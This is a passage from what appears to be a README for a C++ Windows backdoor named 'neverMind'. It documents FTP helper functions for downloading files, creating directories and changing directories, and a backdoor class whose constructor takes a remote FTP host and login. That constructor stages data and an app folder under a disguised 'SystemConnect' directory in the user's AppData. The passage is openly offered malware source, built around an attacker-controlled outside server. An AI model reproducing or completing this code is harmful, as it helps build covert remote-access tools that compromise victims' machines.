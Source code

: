 - `retr_file(const std::string& local_path, const std::string& server_name)`: this function downloads a file from the FTP server to the local path. 

```cpp
bool ftpC::retr_file(const std::string& local_path, const std::string& server_name)
    {
        BOOL result = FtpGetFileA(ftpS, server_name.c_str(), local_path.c_str(), 0, 0, FTP_TRANSFER_TYPE_BINARY, INTERNET_FLAG_HYPERLINK);
        return result;
    }
```

- `mkdir(const std::string& folder_name)`: this function creates a new directory on the FTP server with the specified folder name.

```cpp
bool ftpC::mkdir(const std::string& folder_name)
    {
        BOOL result = FtpCreateDirectoryA(ftpS, folder_name.c_str());
        return result;
    }
```

- `cd(const std::string& server_path)`: this function changes the current directory on the FTP server to the directory specified by `server_path`.

```cpp
bool ftpC::cd(const std::string& server_path)
    {
        BOOL result = FtpSetCurrentDirectoryA(ftpS, server_path.c_str());
        return result;
    }
```

### neverMind

the `neverMind` class defined in `neverMind.h` and implemented in `neverMind.cpp` provides a set of functions for backdoor operations.

#### constructor + destructor

- `neverMind(const std::string &host, const std::string &username, const std::string &password)`: the constructor initializes the backdoor with the provided FTP host, username, and password. it also sets up paths for the backdoor.

```cpp
neverMind::neverMind(const std::string &host, const std::string &username, const std::string &password)
        : ftp_host(host), ftp_username(username), ftp_password(password), ftp_connection(ftpC(ftp_host, ftp_username, ftp_password)), win_username(wrapper::get_username()), store_path("C:\\Users\\" + win_username + "\\AppData\\Local\\SystemConnect"), data_path((std::filesystem::path(store_path) / "data").u8string()), app_path((std::filesystem::path(store_path) / "app").u8string()), output_path((std::filesystem::path(data_path) / "output.txt").u8string())
    {
    }
```
